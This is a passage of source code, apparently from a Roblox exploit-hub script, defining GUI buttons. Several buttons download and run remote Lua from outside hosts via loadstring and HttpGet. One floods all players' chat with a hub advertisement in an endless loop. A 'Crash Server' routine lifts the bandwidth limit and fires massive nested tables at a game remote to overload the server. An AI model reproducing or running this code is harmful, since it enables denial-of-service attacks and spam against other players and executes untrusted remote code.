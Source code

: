     loadstring(game:HttpGet("https://the-shed.xyz/roblox/scripts/ChatBypass", true))()
end)
ss:Button("Chat Translator",function()
    loadstring(game:HttpGetAsync('https://i.qts.life/r/ChatInlineTranslator.lua', true))()
end)
ss:Button("Chat Remover",function()
    while true do
    wait(1.7)
local args = {
    [1] = " ",
    [2] = "All"
}
game:GetService("ReplicatedStorage").DefaultChatSystemChatEvents.SayMessageRequest:FireServer(unpack(args))
end
end)
ss:Button("Chat Spammer",function()
    while true do wait(0) 

        local A_1 = "JOIN COSMOS HUB TODAY - MADE BY COSMOS" local A_2 = "All" 
        local Event = game:GetService("ReplicatedStorage").DefaultChatSystemChatEvents.SayMessageRequest Event:FireServer(A_1, A_2) end
end)
ss:Label("- -Broken Stuff- -")
ss:Button("Mouse Fling (Press E)",function()
    loadstring(game:HttpGet("https://raw.githubusercontent.com/Pylwt/mouse-fling/main/README.md", true))()
end)
ss:Button("Crash Server",function()
    --// made my reestart
--// fixed by daddy ewo
while wait(0.6) do --// don't change it's the best
    game:GetService("NetworkClient"):SetOutgoingKBPSLimit(math.huge)
    local function getmaxvalue(val)
    local mainvalueifonetable = 499999
    if type(val) ~= "number" then
    return nil
    end
    local calculateperfectval = (mainvalueifonetable/(val+2))
    return calculateperfectval
    end
    local function bomb(tableincrease, tries)
    local maintable = {}
    local spammedtable = {}
    table.insert(spammedtable, {})
    z = spammedtable[1]
    for i = 1, tableincrease do
    local tableins = {}
    table.insert(z, tableins)
    z = tableins
    end
    local calculatemax = getmaxvalue(tableincrease)
    local maximum
    if calculatemax then
    maximum = calculatemax
    else
    maximum = 999999
    end
    for i = 1, maximum do
    table.insert(maintable, spammedtable)
    end
    for i = 1, tries do
    game.RobloxReplicatedStorage.SetPlayerBlockList:FireServer(maintable)
    end